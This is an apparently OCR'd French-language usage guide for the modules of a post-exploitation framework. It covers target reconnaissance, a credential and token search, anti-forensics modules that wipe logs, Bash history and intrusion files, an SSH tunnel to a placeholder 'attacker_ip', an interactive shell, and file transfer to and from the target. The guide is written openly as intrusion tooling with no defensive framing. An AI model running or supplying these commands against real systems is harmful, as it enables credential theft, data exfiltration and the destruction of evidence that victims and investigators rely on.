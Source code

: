 #### 3. **Modules de Collecte d'Informations**

Ces modules sont utilisés pour collecter des informations sur la machine cible.

* **`recon.enumerate`**
  * **Utilité**: Collecte des informations sur les utilisateurs, les groupes, les processus, etc.
  * **Commande**: `run recon.enumerate`
  * **Exemple**: `run recon.enumerate` — Lance une collecte complète des informations système.
* **`recon.scan`**
  * **Utilité**: Scanne les ports ouverts et les services sur la machine cible.
  * **Commande**: `run recon.scan`
  * **Exemple**: `run recon.scan range=192.168.1.0/24` — Scanne les ports sur le sous-réseau spécifié.
* **`recon.cred`**
  * **Utilité**: Recherche des informations d'identification (mots de passe, tokens) sur le système.
  * **Commande**: `run recon.cred`
  * **Exemple**: `run recon.cred` — Cherche dans les fichiers communs pour les informations d'identification.

#### **4. Modules de Nettoyage et d'Anti-Forensics**

Ces modules sont utilisés pour effacer les traces d'une intrusion.

* **`clean.logs`**
  * **Utilité**: Efface ou manipule les logs système.
  * **Commande**: `run clean.logs`
  * **Exemple**: `run clean.logs` — Efface les journaux d'accès SSH.
* **`clean.bash_history`**
  * **Utilité**: Supprime l'historique des commandes Bash.
  * **Commande**: `run clean.bash_history`
  * **Exemple**: `run clean.bash_history` — Supprime `.bash_history` pour l'utilisateur actuel.
* **`clean.files`**
  * **Utilité**: Supprime ou dissimule les fichiers laissés sur le système après une intrusion.
  * **Commande**: `run clean.files`
  * **Exemple**: `run clean.files path="/tmp/malicious_file"`

#### 5. **Modules de Réseautage et de Tunnel**

Ces modules permettent de gérer des connexions et des tunnels pour la post-exploitation.

* **`network.port_forward`**
  * **Utilité**: Met en place un port forwarding.
  * **Commande**: `run network.port_forward`
  * **Exemple**: `run network.port_forward local_port=8080 remote_host=192.168.1.5 remote_port=80`
* **`network.ssh_tunnel`**
  * **Utilité**: Crée un tunnel SSH pour la communication sécurisée.
  * **Commande**: `run network.ssh_tunnel`
  * **Exemple**: `run network.ssh_tunnel remote_host=attacker_ip remote_port=22 local_port=8080`

#### 6. **Modules de Shell et de Commandes**

Ces modules permettent une interaction directe avec le shell de la machine cible.

* **`shell.interactive`**
  * **Utilité**: Lance un shell interactif.
  * **Commande**: `run shell.interactive`
  * **Exemple**: `run shell.interactive` — Passe en mode shell interactif.
* **`shell.upload`**
  * **Utilité**: Télécharge un fichier vers la machine cible.
  * **Commande**: `run shell.upload`
  * **Exemple**: `run shell.upload src="/path/to/local/file" dest="/tmp/remote_file"`
* **`shell.download`**
  * **Utilité**: Télécharge un fichier depuis la machine cible.
  * **Commande**: `run shell.download`
  * **Exemple**: `run shell.download src="/tmp/remote_file" dest="/path/to/local/file"`
